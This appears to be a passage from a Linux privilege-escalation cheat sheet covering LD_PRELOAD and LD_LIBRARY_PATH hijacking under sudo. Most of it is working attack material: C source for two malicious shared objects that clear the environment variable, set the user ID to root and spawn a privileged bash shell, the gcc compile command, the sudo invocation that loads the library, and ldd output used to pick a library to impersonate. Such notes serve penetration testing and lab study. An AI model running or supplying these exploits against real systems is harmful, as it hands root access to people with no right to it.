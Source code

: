 Source code (*preload.so*):

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  

void _init() {  
	unsetenv("LD_PRELOAD");  
	setresuid(0,0,0);  
	system("/bin/bash -p");  
}
```

Compiling *shared object*:

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Run:

```shell
sudo LD_PRELOAD=/tmp/preload.so <SUDO BINARY>
```

### LDLibraryPath

`LD_LIBRARY_PATH` environment variable specify a set of directories where *shared libraries* are searched first.

`ldd` can be used to identify the *shared libraries* used by a binary:
```shell
ldd <SUDO BINARY>
```

By creating a *shared library* with the same name as one used by a programme and setting `LD_LIBRARY_PATH` with its parent folder, the programme will load our *shared library* into memory.

*shared objects* used by *apache2*:
```shell
ldd /usr/sbin/apache2  
	linux-vdso.so.1 => (0x00007fff063ff000)  
	...  
	libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)  
	libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)  
	libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)  
	/lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)
```

We choose a *shared object*, such as *libcrypt.so.1*.

Source (*library_path.c*):

```c
#include <stdio.h>  
#include <stdlib.h>  

static void hijack() __attribute__((constructor));  

void hijack() {  
	unsetenv("LD_LIBRARY_PATH");  
	setresuid(0,0,0);  
	system("/bin/bash -p");  
}
```
